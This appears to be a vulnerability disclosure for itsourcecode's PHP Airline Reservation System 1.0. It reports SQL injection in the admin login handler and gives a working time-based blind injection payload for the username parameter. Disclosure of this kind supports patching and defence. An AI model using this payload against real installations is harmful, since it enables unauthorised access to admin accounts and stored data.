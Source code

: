 # Vendor

itsourcecode

# Product

Airline Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/03/Airline-Reservation-System-PHP-Project-Source-Code.zip

# Vulnerabilities

SQLi

# Description

On the /admin/login.php page, users enter their username and password for login verification. By capturing the request, it was found that the verification interface is /admin/ajax.php?action=login. By locating the method corresponding to the login action and analyzing it, it was discovered that in the admin/admin_class.php page, the filtering of the username and password fields is insufficient, leading to SQL injection vulnerabilities. The same issue also occurs in the login2() method.
<img width="859" alt="image" src="https://github.com/user-attachments/assets/875f158c-d1d5-48a9-91e2-18e753333426">
<img width="1463" alt="image" src="https://github.com/user-attachments/assets/a55a26b7-5f7a-46e1-b2c8-d0693728887a">

# Poc
```
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=root' AND (SELECT 9673 FROM (SELECT(SLEEP(5)))bZXm) AND 'aMFp'='aMFp&password=Aa12345^
```
